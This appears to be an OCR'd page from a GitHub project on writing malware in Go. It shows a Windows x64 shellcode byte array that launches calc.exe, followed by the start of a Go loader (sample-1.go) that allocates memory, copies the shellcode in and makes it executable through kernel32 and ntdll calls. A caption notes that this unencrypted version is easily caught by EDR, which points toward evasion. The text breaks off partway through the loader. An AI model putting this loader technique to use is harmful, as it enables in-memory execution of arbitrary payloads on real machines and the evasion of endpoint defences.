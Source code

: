 shellcode  
```go  
0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00,
```  

![](/go-malware/go-malware-payload-hexdump.png) 

```  
go run sample-1.go
```  

**sample-1.go: unencrypted shellcode gets pushed to memory. This gets easily busted by edr.**  

```go  
package main

import (
	"syscall"
	"unsafe"
)

var (
	kernel32            = syscall.NewLazyDLL("kernel32.dll")
	ntdll               = syscall.NewLazyDLL("ntdll.dll")
	virtualAlloc        = kernel32.NewProc("VirtualAlloc")
	virtualProtect      = kernel32.NewProc("VirtualProtect")
	createThread        = kernel32.NewProc("CreateThread")
	waitForSingleObject = kernel32.NewProc("WaitForSingleObject")
	rtlMoveMemory       = ntdll.NewProc("RtlMoveMemory")
)

const (
	MEM_COMMIT        = 0x00001000
	MEM_RESERVE       = 0x00002000
	PAGE_READWRITE    = 0x04
	PAGE_EXECUTE_READ = 0x20
	INFINITE          = 0xFFFFFFFF
)

func executeShellcode(shellcode []byte) {
	// Allocate memory for the shellcode
	mem, _, _ := virtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)

	// Copy the shellcode to the allocated memory
	rtlMoveMemory.Call(mem, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

	// Change memory protection to executable
	var oldProtect uint32
```